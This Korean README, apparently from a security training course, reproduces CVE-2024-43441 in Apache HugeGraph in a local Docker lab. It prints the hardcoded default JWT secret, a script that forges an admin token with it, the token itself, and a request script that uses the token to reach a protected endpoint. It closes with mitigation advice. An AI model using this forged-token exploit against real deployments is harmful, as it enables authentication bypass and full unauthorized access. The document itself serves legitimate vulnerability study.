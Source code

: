 # CVE-2024-43441

> 화이트햇 스쿨 3기 - [조성호 (@Reflesh)](https://github.com/Reflesh)

<br/>

## 요약

- auth.token_secret이 설정되지 않은 경우, 기본값으로 하드코딩된 JWT 비밀키가 사용됨
- 공격자는 해당 키로 유효한 JWT 토큰을 생성하여 인증없이 접근 가능
- 따라서 별도의 비밀번호 및 반복 시도 없이 인증 우회가 가능하며 시스템에 대한 완전한 접근이 허용됨

<br/>

## 환경 구성 및 실행
- DockerHub에서 Apache HugeGraph 1.3.0 이미지를 pull
- `docker compose up -d` 커맨드를 입력하여 테스트 환경 실행
- 실행하는 시스템에 Python이 설치되어 있어야함
- `pip install pyjwt` 커맨드를 통해 jwt library 설치(로컬에서 관리자 권한으로 설치)
- `http://localhost:8080` 접속 시 해당 화면이 나타난다면 환경이 잘 구축된 것
<p align="center">
  <img src="./localhost.png">
</p>


### jwt_token.py
기본 JWT 비밀키를 활용하여 JWT 토큰을 생성하는 파이썬 코드입니다.
```python
# Install the jwt library by running `pip install pyjwt`
import jwt

# Generate JWT token using the default secret
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```
생성된 토큰을 사용하면 아래와 같은 요청으로 HugeGraph의 보호된 endpoint에 접근할 수 있습니다.
```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```
<br/>


## 결과
아래는 위에서 생성한 JWT토큰을 사용하여 endpoint에 접근하는 코드(traffic.py)입니다.
```python
import requests

url = "http://localhost:8080/graphs"

headers = {
    "Host": "localhost:8080",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept": "*/*",
    "Accept-Language": "en-US;q=0.9,en;q=0.8",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36",
    "Connection": "close",
    "Cache-Control": "max-age=0",
    "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg"
}

response = requests.get(url, headers=headers)

print(f"HTTP/{response.raw.version} {response.status_code} {response.reason}")
for key, value in response.headers.items():
    print(f"{key}: {value}")
print()
print(response.text)
```
아래는 Python으로 실제 응답을 받아온 화면입니다.(첫번째 : 공격 성공, 두번째 : 공격 실패)
![](./result.png)

## 정리

해당 취약점은 설정 미비 시 기본값으로 하드코딩된 보안 키를 사용하는 구조적 문제입니다.    
따라서 HugeGraph를 사용할 경우 반드시 `auth.token_secret`을 사용자 정의 키로 설정해야합니다.    
설정하지 않으면 누구든지 기본키만 알고있다면 인증 우회가 가능합니다.   
